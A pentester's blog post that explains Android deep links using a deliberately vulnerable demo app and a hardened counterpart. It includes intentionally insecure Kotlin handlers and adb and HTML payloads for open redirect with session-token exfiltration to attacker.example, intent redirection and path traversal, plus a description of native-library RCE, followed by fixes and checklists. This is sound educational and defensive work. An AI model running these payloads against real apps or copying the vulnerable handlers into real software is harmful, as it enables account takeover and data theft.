






A while ago I was in an interview for an Android pentesting position. I'd done real Android engagements, found real bugs, written real reports. Second question: "Can you explain how deep links work and how they get exploited?" I gave a vague, hand-wavy answer. I got the job anyway, but that question stuck with me, I'd been testing deep links without actually being able to explain them from first principles.
So I fixed that properly. I built a small Android project with two real apps, one deliberately vulnerable, one hardened, installed both on an emulator, exploited the vulnerable one with plain adb commands, and confirmed the hardened one blocks the exact same payloads. Every code sample, screenshot, and command below is from that real build, not a hypothetical. This post is the "explain it properly" answer I wish I'd given.
What a deep link actually is
A deep link is just a URI that the Android OS routes to a specific screen inside an app instead of (or in addition to) a browser. There are three flavors, and mixing them up is the first thing that trips people up in interviews and in reports:
- Custom URI scheme, e.g.
myapp://open?id=42. Any app can register any scheme. There is zero ownership verification: if two apps both declaremyapp://, Android just doesn't know which one is "real." - Android App Links, a regular
https://URL (e.g.https://example.com/open?id=42) that an app also claims via an intent filter. Because it's a real domain, Android can (optionally) cryptographically verify the app is allowed to handle it, via a file calledassetlinks.jsonhosted on that domain. - Plain implicit intents, not URI-triggered at all, just
action.VIEWintents another app constructs and fires directly. Same receiving code, different delivery mechanism, worth remembering when you're deciding whether a fix belongs in the manifest or in the handler code.
Every deep link starts life as an <intent-filter> in AndroidManifest.xml:
<activity android:name=".DeepLinkActivity" android:exported="true">
<intent-filter>
<action android:name="android.intent.action.VIEW" />
<category android:name="android.intent.category.DEFAULT" />
<category android:name="android.intent.category.BROWSABLE" />
<data android:scheme="myapp" android:host="open" />
</intent-filter>
</activity>
action.VIEW + category.BROWSABLE is what lets a link clicked in a browser or another app actually reach this activity. Drop BROWSABLE and the activity can still be launched via adb or another app's explicit intent, but not from a web page.
Who uses deep links, and why
This is the part interviewers actually want to hear, because it's what tells them you understand deep links as a product feature, not just an attack surface:
- Push notifications and email/SMS campaigns,"View your order" opens the exact order screen instead of the app's home screen.
- OAuth / SSO redirect-back, after authenticating in a browser or another app, the identity provider redirects back into your app via a deep link carrying an auth code or token.
- Payment / 3-D Secure return flows, the bank's page finishes and deep-links back into the app to resume the checkout.
- Referral and attribution SDKs, Branch, AppsFlyer, Adjust, and similar all work by intercepting a deep link, resolving it against a server, and forwarding params into the app.
- "Open in app" banners and universal links, the same URL that works as a normal web page opens the app instead if it's installed.
Notice the pattern: the two riskiest use cases (SSO handoff, payment return) are exactly the ones that pass authentication material through the deep link. That's not a coincidence, it's why deep link bugs so often turn into account takeover rather than "just" a UI quirk.
How Android resolves a deep link
For a custom scheme, resolution is a free-for-all: whichever installed app declares a matching <data> block is a candidate. If exactly one app matches, Android opens it directly. If more than one app registers the same scheme, the user gets a disambiguation chooser, or, if a malicious app is set as the default handler, it can just win silently.
For App Links, Android can additionally verify domain ownership. This only happens when the intent filter has android:autoVerify="true" and the domain serves a reachable /.well-known/assetlinks.json listing the app's signing certificate SHA-256 fingerprint. If both conditions hold, Android grants the app exclusive, silent handling of that domain, no chooser, no other app can intercept it. If either condition is missing, the OS falls back to legacy behavior: a disambiguation dialog, or in some configurations, whichever app the user happens to have set as default.
This is the single most common misunderstanding I see in the field: teams add android:autoVerify="true" to the manifest and consider App Links "secured," without ever hosting assetlinks.json. The attribute alone does nothing, verification either succeeds against a real hosted file, or it silently fails and you're back to unverified custom-scheme-like behavior.
The demo: a real vulnerable app and a real hardened app
I built two small Kotlin apps, app-vulnerable and app-secure, sharing the identical manifest shape: a launcher activity, an exported DeepLinkActivity reachable via vulnapp://open and via an unverified https://deeplink-demo.kecman.co/open App Link, and a non-exported "internal" AdminActivity meant to simulate a privileged screen. Both were built with Gradle, installed on an Android 11 emulator, and exploited with nothing more than adb shell am start.
DeepLinkActivity reads three query parameters straight off intent.data, next, target, and file, each one feeding a classic, real-world sink. Here's the vulnerable version, unedited:
class DeepLinkActivity : AppCompatActivity() {
private val sessionToken = "eyJhbGciOiJIUzI1NiJ9.DEMOTOKEN123.fakejwtsignature"
private fun handleIntent(intent: Intent) {
val uri = intent.data ?: return
// VULN 1: open redirect + session token leak via WebView
val next = uri.getQueryParameter("next")
if (next != null) {
val finalUrl = "$next?session=$sessionToken"
webView.loadUrl(finalUrl)
}
// VULN 2: intent redirection to a non-exported activity
val targetClass = uri.getQueryParameter("target")
if (targetClass != null) {
val forward = Intent().setClassName(this, targetClass)
startActivity(forward)
}
// VULN 3: path traversal / arbitrary internal file read
val fileName = uri.getQueryParameter("file")
if (fileName != null) {
val target = File(filesDir, fileName)
val content = target.readText()
resultText.text = content
}
}
}None of these three lines of logic are contrived, each one mirrors a pattern I've genuinely seen in production apps. Let's exploit each one.
1. Open redirect + token leak
The next parameter is loaded into a WebView with zero host or scheme validation, and the app happily glues its own session token onto the URL first, exactly the kind of shortcut a "continue after login" deep link handler takes when someone forgot the redirect target is attacker-controlled.
adb shell am start -W -a android.intent.action.VIEW \
-d "vulnapp://open?next=https://attacker.example/steal" \
co.kecman.deeplinkdemo.vulnerableThe WebView resolves and requests the attacker URL with the token attached, in full view on-screen and in logcat:

D DeepLinkDemo: VULN1 open-redirect: loading WebView URL with session
token attached: https://attacker.example/steal?session=eyJhbGciOiJIUzI1
NiJ9.DEMOTOKEN123.fakejwtsignature
In a real app, that attacker.example server just received the victim's live session token as a plain GET parameter, account takeover, no phishing page required, just one tapped link.
2. Intent redirection / confused deputy
AdminActivity is declared android:exported="false", which should make it completely unreachable from outside the app. But DeepLinkActivity (exported) takes an attacker-supplied class name and forwards to it with no allowlist, a textbook confused deputy, reopening a surface the manifest tried to close.
adb shell am start -W -a android.intent.action.VIEW \
-d "vulnapp://open?target=co.kecman.deeplinkdemo.vulnerable.AdminActivity" \
co.kecman.deeplinkdemo.vulnerable
The internal-only screen renders, reached entirely through the exported activity's forwarding logic. android:exported="false" only protects the component from direct external intents, it says nothing about code inside your own app that turns untrusted input into a component to launch.
3. Path traversal / arbitrary internal file read
The file parameter is appended to filesDir with no canonicalization, so ../ sequences escape the intended directory and reach sibling files, in this case, the app's own SharedPreferences XML, seeded with a fake auth token to make the leak concrete.
adb shell am start -W -a android.intent.action.VIEW \
-d "vulnapp://open?file=../shared_prefs/co.kecman.deeplinkdemo.vulnerable_preferences.xml" \
co.kecman.deeplinkdemo.vulnerable
auth_token=SUPER_SECRET_AUTH_TOKEN_abc123, read straight out of app-private storage via a link. Swap the target path for a SQLite database under databases/ and the same bug reads session tables, cached PII, or cookie jars.
The same three payloads against the hardened app
app-secure exposes the identical entry points and the identical three query parameters. The only difference is validation before each sink:
class DeepLinkActivity : AppCompatActivity() {
private val allowedRedirectHosts = setOf(
"deeplink-demo.kecman.co", "trusted-partner.example"
)
// No session token constant at all -- the real fix isn't allowlisting
// the host, it's never putting tokens in redirect URLs in the first place.
private val forwardableActivities: Map<String, Class<*>> = mapOf(
"main" to MainActivity::class.java
)
private fun handleIntent(intent: Intent) {
val uri = intent.data ?: return
val next = uri.getQueryParameter("next")
if (next != null) {
if (isAllowedRedirect(next)) webView.loadUrl(next)
else showBlocked("'$next' is not an allowlisted https redirect target.")
}
val targetKey = uri.getQueryParameter("target")
if (targetKey != null) {
val activityClass = forwardableActivities[targetKey]
if (activityClass != null) startActivity(Intent(this, activityClass))
else showBlocked("'$targetKey' is not a whitelisted forward target.")
}
val fileName = uri.getQueryParameter("file")
if (fileName != null) {
val target = File(filesDir, fileName)
val canonicalTarget = target.canonicalPath
val canonicalFilesDir = filesDir.canonicalPath + File.separator
if (canonicalTarget.startsWith(canonicalFilesDir)) resultText.text = target.readText()
else showBlocked("'$fileName' resolves outside the app's files directory.")
}
}
private fun isAllowedRedirect(next: String): Boolean {
val parsed = Uri.parse(next)
return parsed.scheme == "https" && allowedRedirectHosts.contains(parsed.host)
}
}Replaying the exact same three payloads against this build:



Same links, same emulator, same package structure, the only variable that changed is validation logic. That's usually the honest answer to "how do you fix a deep link vuln": you almost never remove the feature, you add an allowlist and stop trusting the URI.
A fourth pitfall: unverified App Links
Both demo apps also declare the HTTPS App Link https://deeplink-demo.kecman.co/open. The secure manifest sets android:autoVerify="true"; the vulnerable one doesn't. Because I don't actually own deeplink-demo.kecman.co, there's no real assetlinks.json to serve, so verification fails on both, which is itself the point worth internalizing:
$ adb shell dumpsys package domain-preferred-apps (filtered to app-secure)
Package: co.kecman.deeplinkdemo.secure
Domains: deeplink-demo.kecman.co
Status: ask
autoVerify="true" plus a missing or unreachable assetlinks.json gives you Status: ask, the same fallback disambiguation behavior as never setting autoVerify at all. (On Android 12+ the equivalent check is adb shell pm get-app-links <package>; this demo ran on an Android 11 emulator where that specific subcommand doesn't exist yet, hence dumpsys package domain-preferred-apps above.) The manifest attribute is necessary but nowhere near sufficient, if you're reviewing an app's App Links setup, the manifest tells you intent, not outcome. You have to check the live verification status and confirm the hosted assetlinks.json actually matches the app's signing certificate.
Static analysis: what to actually look for
When you get an APK, this is the fast path to finding deep link attack surface before you touch a decompiler:
In AndroidManifest.xml (via aapt dump xmltree <apk> AndroidManifest.xml or jadx's manifest view):
- Every
<activity>with an<intent-filter>containingaction.VIEW+category.BROWSABLE, this is your full list of deep-link entry points. android:exportedon each, on targetSdk 31+ this must be explicit; a missing value on an older targetSdk defaults to exported if an intent-filter is present, a detail worth checking against the actualtargetSdkVersion.- Presence or absence of
android:autoVerify="true"on anyhttpsdata block, and whetherpathPrefix/pathPatternis broad enough to be meaningfully restrictive. - Multiple hosts or multiple apps claiming the same custom scheme, install two apps with the same scheme on a test device and see who wins.
In the decompiled code (jadx), grep for getIntent().getData() and trace every value pulled off that Uri to its sink:
Uri uri = getIntent().getData();
String token = uri.getQueryParameter("token");
String next = uri.getQueryParameter("next");
webView.loadUrl(uri.getQueryParameter("url")); // WebView load -> JS injection, token theft
System.load(uri.getQueryParameter("lib")); // native lib load -> RCE-class bug
new FileInputStream(uri.getQueryParameter("file")); // path traversal
startActivity(new Intent(uri.getQueryParameter("redirect"))); // intent redirection
Each of those four sinks is a real vulnerability class on its own; the demo above covers the first, third, and fourth, but the System.load variant deserves a special mention: a deep link that controls a path handed to System.load() or loadLibrary() lets an attacker host a malicious .so on their own server and have the victim app dlopen() it, executing JNI_OnLoad in the app's own process, full native code execution, delivered by a single tapped link.
Dynamic testing methodology
The whole point of this demo is that none of it needed anything beyond stock Android tooling:
# Trigger a deep link directly
adb shell am start -W -a android.intent.action.VIEW -d "myapp://open?param=value"
# Same, forcing a specific package when multiple apps share a scheme
adb shell am start -W -a android.intent.action.VIEW -d "myapp://open?param=value" com.target.package
# Check App Link verification status (Android 12+)
adb shell pm get-app-links com.target.package
# Android 11 and earlier equivalent
adb shell dumpsys package domain-preferred-apps
# Watch what the app does with the parsed URI in real time
adb logcat | grep -i deeplinkFor the one-click, no-adb-required version of the redirect PoC, a minimal HTML page is enough to prove the same bug fires from a real browser tap:
<a href="myapp://open?next=https://attacker.example/steal">Click to view your order</a>
Beyond adb, a Frida hook on Activity.onCreate / getIntent() lets you fuzz every query parameter without rebuilding anything, and is the right move once static analysis has told you where the interesting sinks are but you want to observe live values or bypass an obfuscated parameter name. For the referrer-check variant some apps use, --ez android.intent.extra.REFERRER lets you spoof the launching package in the am start command.
Detection checklist
- Enumerate every exported activity with
action.VIEW+category.BROWSABLEfrom the manifest. - For each, identify every query parameter the code reads off
intent.data. - Trace each parameter to its sink: WebView load,
startActivity/reflection, file I/O, native lib load, or forwarded to another intent. - For each sink, ask: is this value validated against an allowlist, or trusted as-is?
- For HTTPS App Links, confirm
autoVerifyis set and check the live verification status withpm get-app-links, don't just read the manifest. - Check for scheme collisions: does any other installed app register the same custom scheme?
Remediation checklist
- Allowlist, don't sanitize. Validate redirect hosts and schemes against a fixed set; reject anything else outright.
- Never carry session tokens in a URL, redirect or otherwise, allowlisted or not, URLs end up in logs, browser history, and Referer headers.
- Never turn user input into a class name or component reference. Use an explicit whitelist map from a known key to a known
Class, exactly like the fix above. - Canonicalize file paths and verify the resolved path is still inside the intended directory before touching the filesystem.
- Set
android:autoVerify="true"and actually hostassetlinks.jsonwith the correct signing certificate fingerprint, then confirm withpm get-app-links, don't assume. - Treat every deep link parameter as untrusted external input, the same way you'd treat a query string on a public HTTP endpoint, because functionally, that's exactly what it is.
OWASP MASVS mapping
For report writing: deep link vulnerabilities generally map to OWASP Mobile Top 10 (2024) M3 (insecure authentication/authorization, when a token or auth flow is involved) and M4 (input validation, for the redirection/traversal/forwarding sinks), with test cases under MSTG-PLATFORM-3 in the Mobile Application Security Testing Guide.
Closing
If I get that interview question again, the answer is short: deep links are just URIs the OS routes into an app, they come in custom-scheme and verified-App-Link flavors with very different trust guarantees, and almost every real vulnerability is the same root cause, a query parameter treated as trusted input when it's actually attacker-controlled. Building the vulnerable and secure versions side by side, and actually exploiting both with nothing but adb, made that concrete in a way that reading about it never did.
Thanks for reading! You can add me on LinkedIn.
Happy Hacking!